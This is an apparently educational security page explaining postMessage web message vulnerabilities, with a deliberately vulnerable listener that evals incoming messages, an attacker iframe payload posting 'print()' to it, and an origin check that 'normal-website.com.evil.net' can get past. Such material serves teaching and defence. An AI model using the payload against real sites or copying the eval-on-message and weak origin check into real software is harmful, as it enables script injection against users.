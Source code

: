 # Controlling the web message source

The postMessage() method enables secure, cross-origin communication between different windows, iframes, or tabs in a web application, allowing them to send structured data and messages to each other. This feature is commonly used for scenarios like integrating third-party APIs into iframes, facilitating communication between different parts of a web application running in separate contexts, and building reusable widgets.

It can lead to vulnerabilities if the destination document trusts the sender not to transmit malicious data in the message, and handles the data in an unsafe way by passing it into a sink, then the joint behavior of the two documents may allow an attacker to compromise the user.

### Table of Content

- [exploit](#exploit)
- [Origin Verification](#origin-verification)

## Exploit

```html
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```

This is vulnerable because an attacker could inject a JavaScript payload by constructing the following iframe:

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

Payload: `postMessage()` will send a message containing `print()` to `*` targetOrigin and the the `addEventListener()` will catch the message and `eval` it.

## Origin Verification

Consider the following code:

```js
window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
```

It can be bypass if the origin = `normal-website.com.evil.net`

---

[**:arrow_right_hook: Back home**](/README.md)